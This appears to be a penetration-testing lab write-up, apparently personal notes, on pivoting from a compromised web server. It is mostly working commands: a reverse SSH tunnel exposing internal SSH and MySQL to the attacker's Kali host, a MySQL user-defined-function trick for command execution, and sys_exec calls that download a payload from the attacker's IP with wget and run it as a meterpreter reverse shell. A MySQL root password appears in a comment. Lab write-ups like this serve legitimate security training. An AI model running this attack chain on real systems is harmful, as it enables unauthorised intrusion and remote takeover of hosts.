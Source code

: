 
Once in on `10.11.1.250`  with `www-data` user do:

```bash
cd /tmp
mkdir keys
cd keys
ssh-keygen # make rsa keys to use ssh with

cat /tmp/keys/id_rsa.pub
```


On __kali__ :
```bash
sudo systemctl start ssh.service
vi ~/.ssh/authorized_keys

# add the created key here with a caveat
```

```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ajla
```

Finally: (forwarding the ssh and mysql services)

```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.190
```


## MySQL Service

- How to compile mysql function
https://discordapp.com/channels/780824470113615893/780824472021106702/884969972588249098 

```bash
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
xclip -selection clipboard < lib_mysqludf_sys.so.hex # It just copy to the clipboard è_é

mysql --host=127.0.0.1 --port=13306 --user=root -p # BmDu9xUHKe3fZi3Z7RdMBeb
set @shell = 0x; # ctrl+caps+v before the semicolon, press enter (eg: 0x1ef2f2;)
select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
create function sys_exec returns int soname 'udf_sys_exec.so';
select sys_exec("ls");
```

- Exploitation
```mysql
select sys_exec("wget http://192.168.119.190/rshell.elf");
select sys_exec("chmod +x rshell.elf");
# start exploit/multi/handler in msfconsole
# payload: linux/x86/meterpreter/reverse_tcp 
select sys_exec("./rshell.elf");
```


# Loot

Flag is in `/var/lib/mysql/local.txt`

#TODO  content in /mnt
#TODO stable pivot